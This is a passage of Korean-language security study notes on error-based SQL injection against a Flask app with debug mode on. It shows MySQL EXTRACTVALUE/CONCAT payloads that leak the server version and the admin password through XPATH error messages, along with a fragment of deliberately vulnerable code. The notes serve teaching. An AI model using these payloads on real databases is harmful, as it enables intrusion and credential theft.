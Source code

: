         conn = getConnection()
        curs = conn.cursor(pymysql.cursors.DictCursor)
        curs.execute(sql)
        rows = curs.fetchall()
        conn.close()

        # SQL 실행 결과를 출력하는 코드가 존재하지 않고 쿼리 실행 결과(True/False)만 판단함
        if (rows):
            return "True"
        else:
            return "False"
    
    app.run(host='0.0.0.0', port=8000, debug=True) # 디버그 모드 활성화(debug=True)
    ```
    - Error based SQL Injection 공격 방법
        + Flask 프레임워크로 개발한 애플리케이션에서 디버그 모드를 활성화하면 코드에서 오류가 발생했을 때 발생 원인을 출력함
        + 에러 발생 예시: username에 ```admin 1'```을 입력하면 문법 에러(Syntax Error)가 발생함
            ```sql
            # 파이썬 코드 내 index 함수의 두 번째 실행문에서 생성되는 쿼리
            SELECT username FROM users WHERE username='admin 1''
            ```
    - Error based SQL Injection 공격 코드
        + Background: **```EXTRACTVALUE``` 함수**
            - 첫 번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출하는 함수
            - 두 번째 인자 값에 따른 함수 실행 결과
                + 올바른 XPATH 식을 전달한 경우 쿼리가 정상적으로 실행됨
                    ```sql
                    SELECT EXTRACTVALUE('<a>test</a><b>abcd</b>', '/a'); # 결과: test
                    ```
                + 올바르지 않은 XPATH 식을 전달한 경우 **에러 메시지에 삽입된 식의 결과가 출력됨** <br/> &nbsp;&nbsp; ***→ ⚠️ 올바르지 않은 XPATH 식에 중요한 정보를 추출할 수 있는 식을 입력한다면 공격자는 중요 정보를 획득할 수 있음***
                    ```sql
                    SELECT EXTRACTVALUE(1, ":abcd"); # 결과: ERROR 1105 (HY000): XPATH syntax error: ':abcd'
                    ```
        + MySQL 환경에서 Error based SQL Injection으로 공격할 때 많이 사용하는 쿼리와 실행 결과
            ```sql
            SELECT EXTRACTVALUE(1, CONCAT(0x3a, version()));
            # 결과: ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
            ```
            - XPATH 식에 삽입된 ```version()``` 함수가 실행되면서 에러 메시지에 운영체제에 대한 정보가 포함되어 있음 <br/> &nbsp;&nbsp; → 공격자는 이 정보를 이용해 1-day 또는 0-day 공격을 통해 서버를 장악할 수 있음
            - ```CONCAT(str1, str2[, str3, ...])``` 함수: 둘 이상의 문자열을 입력한 순서대로 합쳐서 반환해주는 함수
        + ```EXTRACTVALUE``` 함수와 서브쿼리를 이용하여 데이터베이스의 정보를 추출하는 쿼리와 실행 결과
            ```sql
            SELECT EXTRACTVALUE(1, CONCAT(0x3a, (SELECT password FROM users WHERE username='admin')));
            # 결과; ERROR 1105 (HY000): XPATH syntax error: ':This_is_admin_PASSW@rd'
            ```
            - XPATH 식에 삽입된 서브 쿼리가 실행되면서 에러 메시지에 users 테이블의 admin의 비밀번호가 포함되어 있음 <br/> &nbsp;&nbsp; → 공격자는 서브 쿼리를 이용해 임의 테이블의 데이터를 획득할 수 있음
